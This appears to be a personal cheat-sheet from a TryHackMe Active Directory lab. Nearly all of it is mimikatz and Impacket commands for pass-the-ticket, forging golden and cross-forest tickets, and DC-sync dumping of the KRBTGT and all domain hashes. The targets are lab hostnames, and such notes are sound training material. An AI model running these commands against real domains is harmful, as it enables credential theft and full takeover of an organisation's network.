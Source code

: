 # Use the ticket for access 
`mimikatz # privilege::debug`
`mimikatz # kerberos::ptt administrator.kirbi`
`mimikatz # exit`
`dir \\THMDC.za.tryhackme.loc\c$\`

# Golden ticket mimikatz
The ingredetients we need:
    The FQDN of the domain
    The Security Identifier (SID) of the domain
    The username of the account we want to impersonate
    The KRBTGT password hash

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /user:za\krbtgt`

# Cross forest trust golden ticket(AD-RSAT Powershell cmdlets)
`Get-ADComputer -Identity "THMDC"`*recover the SID of the child domain controller*
`Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc`*recover the SID of the parent domain controller*

`mimikatz # privilege::debug`

`mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt`

`mimikatz # exit`

`dir \\thmdc.za.tryhackme.loc\c$`
`dir \\thmrootdc.tryhackme.loc\c$\` *So works for both domains*

## Persistence in AD
# DC SYNC all 
`mimikatz # log syncemup_dcdump.txt `
`mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all`*Get all username, hashes and etc*
# DC SYNC Alrternative of mimi(remote ofc)
`python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@MACHINE_IP`
0x36c8d26ec0df8b23ce63bcefa6e2d821

# Forge tickets
` Get-ADDomain` *Get the domain SID*
*All the other information can be found on a dc sync*
